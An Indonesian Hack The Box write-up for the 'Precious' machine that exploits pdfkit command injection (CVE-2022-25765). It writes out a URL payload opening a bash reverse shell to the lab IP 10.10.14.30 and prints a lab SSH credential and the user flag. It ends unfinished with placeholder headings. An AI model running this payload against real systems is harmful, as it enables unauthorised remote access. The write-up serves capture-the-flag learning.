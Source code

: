 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`

Step berikutnya saya coba untuk mengakses *root* ternyata belum bisa  
![image](https://user-images.githubusercontent.com/92077284/213359997-fdb4c873-b486-49d0-ba13-a690ca14b368.png)  

Step selanjutnya saya memeriksa *privilage henry*  
![image](https://user-images.githubusercontent.com/92077284/213359780-b77de642-3b9e-4832-9939-adc80791b6bd.png)  
Ternyata ada file yang mengatur akses privilage yaitu pada `/usr/bin/ruby /opt/update_dependencies.rb`



## a
## a
## a
## a
